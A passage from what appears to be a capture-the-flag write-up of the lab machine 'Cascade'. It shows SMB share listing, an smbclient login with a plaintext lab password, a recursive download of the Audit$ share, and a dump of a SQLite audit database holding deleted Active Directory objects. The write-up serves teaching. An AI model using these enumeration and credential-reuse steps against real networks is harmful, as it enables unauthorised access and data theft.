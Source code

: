 ```
SMB         10.10.10.182    445    CASC-DC1         NETLOGON        READ            Logon server share 
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share

```

I’ll copy all the files to my local VM:

```

root@kali# smbclient --user s.smith //10.10.10.182/Audit$ sT333ve2
Try "help" to get a list of possible commands.
smb: \> mask ""
smb: \> prompt OFF
smb: \> recurse ON
smb: \> lcd smb-audit-loot/
smb: \> mget *
getting file \CascAudit.exe of size 13312 as CascAudit.exe (191.2 KiloBytes/sec) (average 191.2 KiloBytes/sec)
getting file \CascCrypto.dll of size 12288 as CascCrypto.dll (206.9 KiloBytes/sec) (average 198.4 KiloBytes/sec)
getting file \DB\Audit.db of size 24576 as Audit.db (461.5 KiloBytes/sec) (average 275.3 KiloBytes/sec)
getting file \RunAudit.bat of size 45 as RunAudit.bat (0.8 KiloBytes/sec) (average 213.2 KiloBytes/sec)
getting file \System.Data.SQLite.dll of size 363520 as System.Data.SQLite.dll (3317.8 KiloBytes/sec) (average 1198.9 KiloBytes/sec)
getting file \System.Data.SQLite.EF6.dll of size 186880 as System.Data.SQLite.EF6.dll (356.4 KiloBytes/sec) (average 690.9 KiloBytes/sec)
getting file \x64\SQLite.Interop.dll of size 1639936 as SQLite.Interop.dll (4411.8 KiloBytes/sec) (average 1805.3 KiloBytes/sec)
getting file \x86\SQLite.Interop.dll of size 1246720 as SQLite.Interop.dll (4629.3 KiloBytes/sec) (average 2308.8 KiloBytes/sec)

```

### Audit.db

The first thing I looked at was `DB\Audit.db`. It’s a SQLite3 database:

```

root@kali# file Audit.db 
Audit.db: SQLite 3.x database, last written using SQLite version 3027002

```

I dumped all the data from the three tables:

```

root@kali# sqlite3 Audit.db 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
DeletedUserAudit  Ldap              Misc

sqlite> select * from DeletedUserAudit;
6|test|Test
DEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d|CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
7|deleted|deleted guy
DEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef|CN=deleted guy\0ADEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef,CN=Deleted Objects,DC=cascade,DC=local
```
